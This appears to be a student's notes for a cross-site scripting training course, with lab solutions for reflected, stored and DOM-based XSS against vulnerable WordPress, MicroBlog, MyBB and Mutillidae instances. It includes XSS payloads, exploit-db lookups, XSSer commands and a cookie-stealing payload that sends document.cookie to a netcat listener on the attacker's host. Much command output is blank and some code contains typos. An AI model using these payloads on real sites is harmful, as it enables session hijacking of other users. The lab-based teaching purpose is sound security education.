# XSS Attacks

Cross-site scripting (XSS) is one of the most commonly exploited vulnerabilities in web applications. As a web application pentester or bug bounty hunter, it is vitally important to understand what causes XSS vulnerabilities, how they can be identified, and how they can be exploited. Cross-site scripting (XSS) vulnerabilities are often misunderstood and overlooked by developers primarily due to a lack of knowledge on how JavaScript can be weaponized by attackers.

This course will introduce you to Cross-site scripting, explain the difference between Stored, Reflected, and DOM-Based XSS, and will show you how to identify and exploit XSS vulnerabilities in web applications through a mix of both manual and automated techniques.

---

## Course Introduction

### Course Topic Overview

- Anatomy of a Cross-Site Scripting Attack
- Identifying and Exploiting Reflected XSS Vulnerabilities
- Identifying and Exploiting Stored XSS Vulnerabilities
- Identifying and Exploiting DOM-Based XSS Vulnerabilities
- Identifying and Exploiting XSS Vulnerabilities with Automated Tools (XSSer)

### Prerequisites

- Basic familiarity with HTTP/HTTPS
- Basic familiarity with OWASP ZAP/Burp Suite
- Basic familiarity with JavaScript

### Learning Objectives

- You will get an introduction to what XSS vulnerabilities are, how they are caused and how they can be identified.
- You will get an introduction to reflected XSS vulnerabilities and how they can be identified and exploited.
- You will get an introduction to stored XSS vulnerabilities and how they can be identified and exploited.
- You will get an introduction to DOM-Based XSS vulnerabilities and how they can be identified and exploited.
- You will learn how to utilize automated tools and web proxies to identify and exploit XSS vulnerabilities in web applications.

---
---

## Introduction to XSS Attacks

### JavaScript Primer

#### Lab Solution

`vim ./javascript_demo_1.html`:
```html
<DOCTYPE html>
<html>
	<head>
		<title>Test Website</title>
		<script>alert("TEST");</script>
		<script>windows.location.replace("https://www.google.com/");</script>
	</head>
	<body>
		<h1>Welcome to the Test Website</h1>
	</body>
</html>
```

html site


`vim ./javascript_demo_2.html`:
```html
<DOCTYPE html>
<html>
	<head>
		<title>Test Website</title>
		<script type="text/javascript">
		function Warn() {
		    alert("This is a warning message!");
		    document.write("This is a warning message!");
		}
		Warn();
		</script>
	</head>
	<body>
		<h1>Welcome to the Test Website</h1>
	</body>
</html>
```

html site


### Anatomy of an XSS Attack

#### Lab Solution

login page


`burpsuite` > `Repeater`

`HTTP Request`:
```http

TEST@test.com TEST
```
`HTTP Response`:
```http

```

`burpsuite` > `Repeater`

`HTTP Request`:
```http

"><script>alert("TEST");</script><!-- TEST
```
`HTTP Response`:
```http

```

XSS


---

## Reflected XSS

### Introduction to Reflected XSS

#### Lab Solution

david


<script>alert(document.cookie);</script>


`firefox ... &`:
```

```

### Exploiting Reflected XSS Vulnerabilities in WordPress

#### Lab Environment

**WordPress Relevanssi plugin XSS**

In this exercise, the attacker has admin access already so there is nothing more to be done. However, looks like the admin access does lead to an XSS attack. So you can try to find this XSS as purely academic exercise.

[WordPress](https://wordpress.org/) is a free and open source full-featured CMS for hosting blogs and web portals. It is based on PHP and MySQL. It is one of the most popular CMS.

<u>WordPress Relevanssi Plugin (4.0.4) is vulnerable to a Reflected Cross Site Scripting documented in CVE-2018-9034</u>. 

The following username and password may be used to explore the application and/or find a vulnerability which might require authenticated access:
- Username: "admin"
- Password: "password1".

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution

`wpscan --url ...`:
```

```

`wpscan --url ... --enumerate p --plugins-detection aggressive`:
```

```

`wpscan --url ... --enumerate p --plugins-detection aggressive --api-token ...`:
```

```
❌

`searchsploit 'relevanssi'`:
```

```

`cp /usr/share/exploitdb/exploits/php/webapps/44366.txt ./`

`cat ./44366.txt`:
```

```

admin access


`.../wp-admin/options-general.php?page=relevanssi...`:
```

```

`.../wp-admin/options-general.php?page=relevanssi.../...document.cookie...`:
```

```

### Cookie Stealing via Reflected XSS

#### Lab Solution

david


<script>alert(document.cookie);</script>


`ifconfig eth1`:
```

```

`nc -lnvp 4444`:
```

```

`firefox .../value=<script>new image().src='http://...:4444/?cookie=' + encodeURI(document.cookie);</script> &`:
```

```

```

```

---

## Stored XSS

### Introduction to Stored XSS

#### Lab Environment

**ApPHP MicroBlog**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be used to attack other users. Stored Cross Site Scripting could be triggered even by unauthenticated users.

In the exercise below, <u>the attacker is not authenticated to the web application and needs to find a stored XSS attack on it</u>.

<u>A version of ApPHP MicroBlog is vulnerable to a stored XSS attack</u>.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution

`searchsploit 'apphp'`:
```

```

`cp /usr/share/exploitdb/exploits/php/webapps/40505.txt`

`cat ./40505.txt`:
```

```

comments


`burpsuite` > `Repeater`

`HTTP Request`:
```http

<script>alert("TEST");</script> TEST@test.com TEST
```
`HTTP Response`:
```http

```

.../...&post_id=69


`view-source:.../...&post_id=69`:
```

```

`burpsuite` > `Repeater`

`HTTP Request`:
```http

<script>alert(document.cookie);</script> TEST@test.com TEST
```
`HTTP Response`:
```http

```

.../...&post_id=69


###  Exploiting Stored XSS Vulnerabilities in MyBB Forum

#### Lab Environment

**MyBB Downloads Plugin**

In this exercise, the attacker has access to a non-privileged account. And this, access does lead to an XSS attack. In such cases, this can be used to attack admin or other users. Even if it doesn't, you can try to find this XSS as purely academic exercise.

<u>A version of MyBB Downloads Plugin is vulnerable to a stored cross site scripting attack</u>.

The following username and password may be used to explore the application and/or find a vulnerability which might require authenticated access:
- Username: "test2"
- Password: "password".

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution

`mybbscan   `:
```

```

`searchsploit 'mybb downloads'`:
```

```

...

New Download
`<script>alert("TEST");</script>`


New Download
`<script>alert("TEST");</script>`


New Download
`<BODY ONLOAD=alert("TEST")>`


New Download
`<BODY ONLOAD=alert("TEST")>`


---

## DOM-Based XSS

### Exploiting DOM-Based XSS Vulnerabilities

#### Lab Solution

New Download
`10*10`


`view-source:...`:
```

```

New Download
`10*10`


New Download
`alert(document.cookie);`


---

## XSS Tools

### Identifying and Exploiting XSS Vulnerabilities with XSSer

#### Lab Environment

**XSS Attack with XSSer**

Web Application Pentesting Tools can prove to be very helpful while performing penetration testing. 

In this lab exercise, we will take a look at how to use [XSSer](https://tools.kali.org/web-applications/xsser) to perform XSS attack on the [Mutillidae](https://github.com/webpwnized/mutillidae) web application.

**Objective**: <u>Perform XSS Attack on the web application with XSSer</u>.

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address `192.X.Y.2`. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address `192.X.Y.1`.

#### Lab Solution

`ifconfig eth1`:
```

```

`sudo nmap -Pn -sSV -p80,443 ...`:
```

```

.../index.php?page=dns-lookup.php
`<script>alert("TEST");</script>`


Toggle Security


`burpsuite` > `Proxy`

`HTTP Request`:
```http

TEST
```

`xsser --url '.../index.php?page=dns-lookup.php' -p 'target_host=XSS...'`:
```

```

`xsser --url '.../index.php?page=dns-lookup.php' -p 'target_host=XSS...' --Fp '<script>alert("TEST");</script>'`:
```

```

Final Attack


`xsser --url '.../index.php?page=dns-lookup.php' -p 'target_host=XSS...' --auto`:
```

```

`xsser --url '.../index.php?page=dns-lookup.php' -p 'target_host=XSS...' --auto --reverse-check`:
```

```

`xss --gtk` > `Intruder` > `Url: ...` > `Configure` = `Type of connection(s): POST: target_host=XSS...` = `Bypasser(s)` > `Hexadecimal with semicolons: Enabled` = `Exploit` > `Exploiting: Manual: <script>alert("TEST");</script>` > `Aim!`

XSSer --gtk


---
---

## Resources and References

- [Cross Site Scripting ( XSS ) Vulnerability Payload List](https://github.com/payloadbox/xss-payload-list)
- [0day Today](https://0day.today/)
- [MDN Web Docs - JavaScript Reference](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference)
- [W3Schools - JavaScript Tutorial](https://www.w3schools.com/js/)

---
---
